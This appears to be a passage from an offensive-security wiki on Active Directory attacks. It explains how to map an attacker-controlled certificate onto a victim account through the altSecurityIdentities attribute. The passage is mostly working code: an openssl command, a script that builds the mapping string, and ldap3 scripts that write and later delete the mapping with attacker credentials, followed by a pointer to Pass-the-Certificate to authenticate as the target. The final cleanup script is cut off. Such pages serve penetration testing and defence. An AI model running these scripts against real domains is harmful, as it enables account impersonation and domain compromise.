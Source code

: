 [openssl](https://github.com/openssl/openssl) can be used to extract the "Issuer" and the "Serial Number" value out of the certificate.

```bash
openssl x509 -in target.crt -noout -text
```

With the following python script (inspired from [this script](https://github.com/JonasBK/Powershell/blob/master/Get-X509IssuerSerialNumberFormat.ps1)), we can use the previously dumped values to craft a X509IssuerSerialNumber mapping string.

```python
issuer = ",".join("<TARGET_DN>".split(",")[::-1])
serial = "".join("<SERIAL_NUMBER>".split(":")[::-1])

print("X509:<I>"+issuer+"<SR>"+serial)
```

the string can then be added to `altSecurityIdentities` target's attribute with the following python script.

```python
import ldap3

server = ldap3.Server('<DC_HOST>')
victim_dn = "<TARGET_DN>"
attacker_username = "<DOMAIN>\\<ATTACKER_SAMACCOUTNNAME>"
attacker_password = "<ATTACKER_PASSWORD>"

conn = ldap3.Connection(
    server=server,
    user=attacker_username,
    password=attacker_password,
    authentication=ldap3.NTLM
)
conn.bind()

conn.modify(
    victim_dn,
    {'altSecurityIdentities':[(ldap3.MODIFY_ADD, '<X509IssuerSerialNumber>')]}
)

conn.unbind()
```

The certificate requested at the begining can then be used with [Pass-the-Certificate](../kerberos/pass-the-certificate.md) to obtain a TGT and authenticate as the target.

The certificate mapping written can be cleaned with the following python script.

```python
import ldap3

server = ldap3.Server('<DC_HOST>')
victim_dn = "<TARGET_DN>"
attacker_username = "<DOMAIN>\\<ATTACKER_SAMACCOUTNNAME>"
attacker_password = "<ATTACKER_PASSWORD>"

conn = ldap3.Connection(
    server=server,
    user=attacker_username,
    password=attacker_password,
    authentication=ldap3.NTLM
)
conn.bind()

conn.modify(
    victim_dn,
    {'altSecurityIdentities':[(ldap3.MODIFY_DELETE, '<X509IssuerSerialNumber>')]}
```